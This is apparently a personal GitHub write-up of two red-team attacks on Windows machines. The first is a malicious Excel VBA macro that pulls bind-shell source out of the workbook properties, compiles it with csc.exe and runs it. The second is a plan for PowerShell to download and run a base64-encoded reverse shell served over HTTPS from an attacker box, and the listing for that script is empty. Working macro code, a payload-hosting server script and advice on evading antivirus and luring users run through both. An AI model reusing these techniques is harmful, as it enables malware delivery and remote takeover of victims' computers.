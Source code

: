 # InfoSec Chronicles from Noobland
## Chapter 0: Abuse Excel VBA macro, a simple approach
###### 21/07/20 ver 1.2
In this article I will illustrate how to execute a payload loaded from a VBA macro script embedded in an Excel xlsm file.<br>
I did not implement any obfuscation\encrypting technique, this has to be consider as a POC. Beware that using well known tools will rise AV warning in most cases,
The requirement was to bypass a note AV software installed on a client machine. Following the events:
* A mail with the Excel file was sent to the client, here I play the role of the victim<br>
![Screenshot](screen/mail.png)
* The mail was not marked as Spam, the user eventually can open directly the enclosed file using the corresponding Outlook feature or download to a local folder
* Once the file has been opened of course a warning appears about the macro content. Here it is necessary to lure the user to enable the macro<br>
![Screenshot](screen/macro.png)
* If the macro is enabled the VBA script will *compile a payload*, in this case a bind shell and execute it. Here the MS firewall warn the user since I used a not common port (4444), using a port like 80 did not rise any warning<br>
![Screenshot](screen/fwarn.png)
* The bind shell is executed (a shell window will popup, you need of course to hide it), the AV will sandbox the exe file but actually the shell is executed<br/>
![Screenshot](screen/run.png)
###### *The logic*
* I embedded the source code of the bind shell in the comment property of the Excel file Here the link to the MS doc: https://docs.microsoft.com/en-us/dotnet/api/microsoft.office.tools.excel.workbook.builtindocumentproperties?view=vsto-2017 and I retrived the value in the VBA script as follows:<br>
`var = ActiveWorkbook.BuiltinDocumentProperties(5)`<br>
I used a file system object to write the source code of the shell to the *user temp folder*
```
    Dim path As String
    path = Environ("Temp")
    Dim FSO As Object
    Set FSO = CreateObject("Scripting.FileSystemObject")
    Dim oFile As Object
    Set oFile = FSO.CreateTextFile(path & "\mal.cs")
```
* Then I write the content to the file
```   
   oFile.Write var
   oFile.Close
```
* I used the same technique to get the port, that is parametric, and to initialize the wscript shell object<br>
![Screenshot](screen/propxlsm.png)
```
    Dim wSo as Object
    shellObj = ActiveWorkbook.BuiltinDocumentProperties(4)
    wSo = CreateObject(shellObj)
```
* Now we need to find a compiler on the system, I searched for the *csc.exe* since the .Net FW is installed almost on every newer Win OS and my payload is written in C#. Follows the recursive function used to accomplish the task
```
Sub FindCSC(ByVal folderPath As String)

Dim fileName As String
Dim fullFilePath As String
Dim numFolders As Long
Dim folders() As String
Dim i As Long

If Right(folderPath, 1) <> "\" Then folderPath = folderPath & "\"
fileName = Dir(folderPath & "*.*", vbDirectory)

While Len(fileName) <> 0

    If Left(fileName, 1) <> "." Then
 
        fullFilePath = folderPath & fileName
 
        If (GetAttr(fullFilePath) And vbDirectory) = vbDirectory Then
            ReDim Preserve folders(0 To numFolders) As String
            folders(numFolders) = fullFilePath
            numFolders = numFolders + 1
        Else
            If fileName = "csc.exe" Then
                CSC = folderPath & fileName 'found compiler
                Exit Sub
            End If
        End If
 
    End If
 
    fileName = Dir()

Wend

For i = 0 To numFolders - 1
    'if found we exit
    If CSC <> "" Then
        Exit For
    End If
    FindCSC folders(i)
 
Next i

End Sub
```
* Now assuming that the full path of csc.exe is stored in the CSC variable the following will compile the source file:
```
    Dim exePath As String
    exePath = """" & path & "\mal.exe" & """"
    wSo.exec CSC & " /t:exe /out:" & exePath & " " & csPath
```
* Finally I executed the bind shell
```
wSo.exec path & "\mal.exe"
```
* Once the source file has been compiled it will be deleted, if not runnin even the exe file will be deleted on closing the Excel file

###### *Conclusion*
The idea is to compile a payload on the victim machine in order to avoid to downlad it from somewhere since the corresponding code will rise alerts on AV software, same thing happens trying to run a cmd or a bat file. Not talk about powershell. Of course you have to avoid to embedd well-known code or created with msfvenom since they will be detected once compiled. Be creative and code your stuff.<br>Here you can download the Excel file and the source code of the bind shell, the file is encrypted and you need a password to open it, if you are good guy ;) you can drop me an email at **filobers[at]pm[dot]me** and I will happy to assist you<br>

## Chapter 1: Abuse IE to download and execute a payload through PS
###### 13/09/20 ver 1.0
I had to bypass a white list applications execution enviroment, lucky PS scripts were allowed on almost every machine, as well as .Net FW 3.5 executable (not signed).
The client has installed an AV solution, with an host firewall. No IPS\IDS were present on the network (now they are!).<br>
Here I will skip the social engineering part about how to lure the victim to lunch the PS script, actually this is the real magic part :). This is only a POC. Following the recipe:
1. An SSL certificate (here I will use a fake one, providing the code to bypass the error)
1. A windows client (AKA victim) machine: in this POC a win 10 pro x64 box, with a AV solution and host firewall activated
1. An attacker Linux box with Python an *old netcat version installed, here I use Parrot OS.

Since this is only a POC, as usual, not covering techniques are implemented, to cut the long story short I skip all the red teaming stuff. The execution plane was:<br>
1. The victim executes the PS script that download (though HTTPS) the encoded payload (a basic .Net Fw 3.5 reverse shell)
1. The payload is converted back to the original executable file and it is saved on the desktop user profile (yes, that is, no AV detection)
1. The exe file is hidden and executed
1. I got a shell on the attacker machine

So first of all set a HTTPS web server on the attacker machine, of course we can use a Python script:<br>
```
#!/usr/bin/python2
# taken from http://www.piware.de/2011/01/creating-an-https-server-in-python/
# generate server.xml with the following command:
#    openssl req -new -x509 -keyout server.pem -out server.pem -days 365 -nodes
# run as follows:
#    python simple-https-server.py
# then in your browser, visit:
#    https://192.168.1.11:4443

import BaseHTTPServer, SimpleHTTPServer
import ssl
import sys

if len(sys.argv) > 1:
    httpd = BaseHTTPServer.HTTPServer((sys.argv[1], 443), SimpleHTTPServer.SimpleHTTPRequestHandler)
    httpd.socket = ssl.wrap_socket (httpd.socket, certfile='./server.pem', server_side=True)
    httpd.serve_forever()    
else:
    print "You must pass the local IP address to bind: " + sys.argv[0] + " 192.168.1.11"
```
The script location will be the document web server root, here we can host our encoded Base64 payload. In this case I used a simple reverse shell (slighty modified). You can find the source code here: https://gist.github.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc. Here I changed the IP and the port to point to my attacker machine, 192.168.1.7:80, then 
I encoded the compiled exe to Base64 string. You can use the application here (.Net FW 3.5 is required): https://github.com/zinzloun/InfoSec_chronicles/blob/master/Convert2Base64.exe to encode a binary file to a textual one.<br>
Once converted move the file to the HTTPS root document in order to be downloaded as shown:<br>
![Screenshot](screen/encodedExe.png)<br>
Now we start the web server waiting for incoming request for the encoded payload:
```
#./start-server.py 192.168.1.7
```
On the client\victim machine we have the following Powershell script:
```

```



